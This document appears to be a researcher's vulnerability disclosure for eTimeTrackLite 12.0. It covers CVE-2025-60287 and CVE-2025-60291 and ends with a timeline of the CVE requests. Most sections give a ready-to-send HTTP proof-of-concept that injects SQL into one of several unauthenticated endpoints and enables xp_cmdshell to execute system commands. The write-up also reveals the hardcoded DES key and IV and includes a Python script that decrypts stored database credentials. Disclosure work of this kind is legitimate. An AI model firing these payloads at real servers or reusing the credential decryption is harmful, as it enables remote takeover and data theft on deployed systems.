## 0x01 Affected Version

Test Version:  eTimeTrackLite 12.0 (20250704)

## 0x02 Vulnerability Details

### UpdateDeviceLastPingBySerialNumber Unauthorized SQL Injection（CVE-2025-60287）

cdata.aspx



cdata::Page_Load

Receives an SN parameter and passes it to UpdateDeviceLastPing



follow up cdata.UpdateDeviceLastPing(string) : bool @060002FA



Continue to follow up eTimeTrackLiteLibrary.Manage.DeviceManagement.UpdateDeviceLastPingBySerialNumber(string, ref string, ref ErrorObj) : void @060009F8

Directly concatenate SQL statements. SQL injection may occur. You can use stacked queries.



Call Stack

```
>   eTimeTrackLiteLibrary.dll!eTimeTrackLiteLibrary.Manage.DeviceManagement.UpdateDeviceLastPingBySerialNumber(string SerialNumber, ref string LastPing, ref eTimeTrackLiteLibrary.Data.Common.ErrorObj objErrorObj) (IL=0x0015, Native=0x00007FF954CF6E30+0x8E)
    App_Web_qobtmukw.dll!cdata.UpdateDeviceLastPing(string SerialNumber) (IL=0x0023, Native=0x00007FF954CF6D20+0xA0)
    App_Web_qobtmukw.dll!cdata.Page_Load(object sender, System.EventArgs e) (IL≈0x0092, Native=0x00007FF954CF54F0+0x2AF)
```

Direct remote code execution using xp_cmdshell

poc:

```http
GET /cdata.aspx?SN=111';EXEC+sp_configure+'show+advanced+options',+1;RECONFIGURE;EXEC+sp_configure+'xp_cmdshell',+1;RECONFIGURE;EXEC+xp_cmdshell+'cmd+/c+calc';--+ HTTP/1.1
Host: 192.168.1.222:83
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: keep-alive


```



Since cdata.SendOptionsToDevice(string, string) : void @06000302 also has SQL injection, it will be executed twice



eTimeTrackLiteLibrary.Manage.DeviceManagement.GetDeviceTransactionStampAndOpStampAndTimeZoneBySerialNumber(string, ref string, ref string, ref string, ref string, ref ErrorObj) : void @060009F9

It is also directly splicing SQL statements



In addition, the UpdateDeviceLastPingBySerialNumber function can also be called through DeviceCommandGet.Page_Load(object, EventArgs): void @060003CC



poc

```http
GET /DeviceCommandGet.aspx?DeviceCode=111';EXEC+sp_configure+'show+advanced+options',+1;RECONFIGURE;EXEC+sp_configure+'xp_cmdshell',+1;RECONFIGURE;EXEC+xp_cmdshell+'cmd+/c+calc';--+ HTTP/1.1
Host: 192.168.1.222:83
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: keep-alive


```

getrequest.Page_Load(object, EventArgs) : void @060002EE



poc

```http
GET /getrequest.aspx?SN=111';EXEC+sp_configure+'show+advanced+options',+1;RECONFIGURE;EXEC+sp_configure+'xp_cmdshell',+1;RECONFIGURE;EXEC+xp_cmdshell+'cmd+/c+calc';--+ HTTP/1.1
Host: 192.168.1.222:83
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: keep-alive


```


### AddDeviceErrorMessage Unauthorized SQL Injection（CVE-2025-60287）

devicecmd.Page_Load(object, EventArgs) : void @0600038F

If an error occurs while parsing the body content, DeviceManagement.AddDeviceErrorMessage will be called to log the error.

Errors can be caused by using Conversions.ToInteger.



eTimeTrackLiteLibrary.Manage.DeviceManagement.AddDeviceErrorMessage(string, string, string, string, ref ErrorObj) : void @060009EB

Directly concatenating SQL statements can lead to SQL injection



Call Stack

```
>	eTimeTrackLiteLibrary.dll!eTimeTrackLiteLibrary.Manage.DeviceManagement.AddDeviceErrorMessage(string SerialNumber, string ErrorMessage, string LogStream, string CreatedDate, ref eTimeTrackLiteLibrary.Data.Common.ErrorObj objError) (IL≈0x0081, Native=0x00007FF953B633A0+0x1F9)
 	App_Web_qobtmukw.dll!devicecmd.Page_Load(object sender, System.EventArgs e) (IL=0x0221, Native=0x00007FF953B62800+0x987)
```

Here is insert injection, and if you want to make the conversion error, you need multiple lines of content. Here you can construct the following POC

```http
POST /devicecmd.aspx?SN=222','x','x','2025-05-16+14:35');EXEC+sp_configure+'show+advanced+options',+1;RECONFIGURE;EXEC+sp_configure+'xp_cmdshell',+1;RECONFIGURE;EXEC+xp_cmdshell+'cmd+/c+calc';/* HTTP/1.1
Host: 192.168.1.222:83
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

a
*/
```



### GetEmployeeLoginDetails Unauthorized SQL Injection（CVE-2025-60287）

EmployeeLogin.Btn_Ok_Click(object, EventArgs) : void @06000387

Call EmployeeManagement.GetEmployeeLoginDetails



eTimeTrackLiteLibrary.Manage.EmployeeManagement.GetEmployeeLoginDetails(ref Employee, ref ErrorObj) : void @06000A67

Directly concatenating SQL can cause SQL injection at the username



Call Stack

```
>	eTimeTrackLiteLibrary.dll!eTimeTrackLiteLibrary.Manage.EmployeeManagement.GetEmployeeLoginDetails(ref eTimeTrackLiteLibrary.Data.Master.Employee ObjEmployee, ref eTimeTrackLiteLibrary.Data.Common.ErrorObj objError) (IL=0x0058, Native=0x00007FF954444F60+0x1E6)
 	App_Web_qobtmukw.dll!EmployeeLogin.Btn_Ok_Click(object sender, System.EventArgs e) (IL=0x00E4, Native=0x00007FF953BC51A0+0x3A6)
```

poc

```http
POST /EmployeeLogin.aspx HTTP/1.1
Host: 192.168.1.222:83
Content-Length: 573
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://192.168.1.222:83
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.222:83/EmployeeLogin.aspx
Accept-Encoding: gzip, deflate, br
Cookie: ASP.NET_SessionId=2pvvb5jgnk3clztmd3kngiyg
Connection: keep-alive

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUJNzAzOTQ2MjIwZBgBBSBTdGFmZmxvZ2luRGlhbG9nJENhcHRjaGFDb250cm9sMQ8FJDc3MDVkMGYwLTI4MTYtNGY5Ny1iOGNlLTdlZDRkZmE5ZGI1MmQTOiuWa%2BiQ12qHTkZ1k75yOXihPQ6SRhOzitxWedsJvA%3D%3D&__VIEWSTATEGENERATOR=859E8672&StaffloginDialog%24txt_LoginName=xxxx%27%3BEXEC+sp_configure+%27show+advanced+options%27%2C+1%3BRECONFIGURE%3BEXEC+sp_configure+%27xp_cmdshell%27%2C+1%3BRECONFIGURE%3BEXEC+xp_cmdshell+%27cmd+%2Fc+calc%27%3B--+&StaffloginDialog%24Txt_Password=asfzasf&StaffloginDialog%24CaptchaControl1=jre4h&StaffloginDialog%24Btn_Ok=Login
```

To exploit this vulnerability, you need to ensure that the viewstate is obtained from the server and the verification code is correct. You can directly submit the following value as the username on the login page to exploit it.

```
xxxx';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';-- 
```



### Unauthorized modification of database configuration（CVE-2025-60291）

/admin/DBSettings.aspx

Unauthorized access can control connections to any database, thus bypassing the login process



### Information Disclosure Vulnerabilities（CVE-2025-60291）

/Settings.txt can obtain the database connection configuration



eTimeTrackLiteLibrary.DatabaseConnection.GetDBSettings(ref string, ref string, ref string, ref string, ref bool, ref string, ref string, ref string, ref string) : void @06000DAD

Decryption



eTimeTrackLiteLibrary.Utilities.Encryption64.Decrypt(string, string) : string @06000E2D

DES decryption key is essl1234



iv and key are also hardcoded



Decryption script

```python
from base64 import b64decode
from Crypto.Cipher import DES

def unpad(data: bytes) -> bytes:
    pad_len = data[-1]
    return data[:-pad_len]

def decrypt(ciphertext_base64: str, key_string: str) -> str:
    key = key_string[:8].encode('utf-8')
    iv = bytes([18, 52, 86, 120, 144, 171, 205, 239])
    cipher = DES.new(key, DES.MODE_CBC, iv)
    decrypted = cipher.decrypt(b64decode(ciphertext_base64))
    return unpad(decrypted).decode('utf-8')

ciphertext = "qJRmoayr8GYOABMQIASviQ=="
key = "essl1234"
plaintext = decrypt(ciphertext, key)
print("plaintext:", plaintext)
```

### Multiple unauthorized SQL injections in MobileAppService.asmx（CVE-2025-60287）

MobileAppService.CheckAuthorisedUser(string, string) : string @0600000E



eTimeTrackLiteLibrary.Manage.EmployeeManagement.CheckForMigratedToOtherCryptography(ref Employee, ref ErrorObj) : void @06000AB9

Directly splicing SQL



poc

```http
POST /MobileAppService.asmx HTTP/1.1
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://tempuri.org/CheckAuthorisedUser"
Content-Length: 489
Host: 192.168.1.222:83
Connection: keep-alive

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:CheckAuthorisedUser>
         <tem:UserName>';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';-- </tem:UserName>
         <tem:UserPassword>test</tem:UserPassword>
      </tem:CheckAuthorisedUser>
   </soapenv:Body>
</soapenv:Envelope>
```

There are many other SQL injections

MobileAppService.GetEmployeeDetailForQRCode(string) : string @0600000F



eTimeTrackLiteLibrary.Manage.MobileServiceManagement.GetEmployeesDetailsByLoginName(string, ref DataSet, ref ErrorObj) : void @06000B57



poc

```http
POST /MobileAppService.asmx HTTP/1.1
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://tempuri.org/GetEmployeeDetailForQRCode"
Content-Length: 462
Host: 192.168.1.222:83
Connection: keep-alive

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetEmployeeDetailForQRCode>
         <tem:LoginName>x';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';select 'x
</tem:LoginName>
      </tem:GetEmployeeDetailForQRCode>
   </soapenv:Body>
</soapenv:Envelope>
```


### Multiple unauthorized SQL injections in WebService.asmx（CVE-2025-60287）

WebService.UserLogin(string, string) : int @06000350



eTimeTrackLiteLibrary.Manage.UserManagement.GetLoginDetails(ref User, ref ErrorObj) : void @06000CF5

Directly splicing SQL



poc

```http
POST /MobileAppService.asmx HTTP/1.1
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://tempuri.org/CheckAuthorisedUser"
Content-Length: 501
Host: 192.168.1.222:83
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)
Connection: keep-alive

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:CheckAuthorisedUser>
        
         <tem:UserName>x';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';-- </tem:UserName>

         <tem:UserPassword>xxx</tem:UserPassword>
      </tem:CheckAuthorisedUser>
   </soapenv:Body>
</soapenv:Envelope>
```

In addition, there are many

WebService.AddDeviceConnectivityStatus(string, string) : void @06000354



eTimeTrackLiteLibrary.Manage.DeviceManagement.GetDeviceIdByName(string, ref int, ref ErrorObj) : void @060009A8



poc

```http
POST /WebService.asmx HTTP/1.1
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://tempuri.org/AddDeviceConnectivityStatus"
Content-Length: 515
Host: 192.168.1.222:83
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)
Connection: keep-alive

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:AddDeviceConnectivityStatus>

         <tem:DeviceSName> x';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';-- </tem:DeviceSName>
 
         <tem:DeviceStatus>x</tem:DeviceStatus>
      </tem:AddDeviceConnectivityStatus>
   </soapenv:Body>
</soapenv:Envelope>
```

## 0x03 Disclosure Timeline

- **2025-05-18** – Submitted CVE ID request
- **2025-08-11** – No response received; inquired about CVE status
- **2025-08-11** – CVE request marked as closed
- **2025-08-14** – Submitted a new CVE ID request
- **2025-09-04** – Inquired about CVE request status; no reply
- **2025-09-13** – Followed up on CVE request; no reply
- **2025-09-23** – Followed up again; still no reply
- **2025-10-11** – Sent another follow-up; still no reply
- **2025-10-17** – Received CVE team reply including assigned CVE ID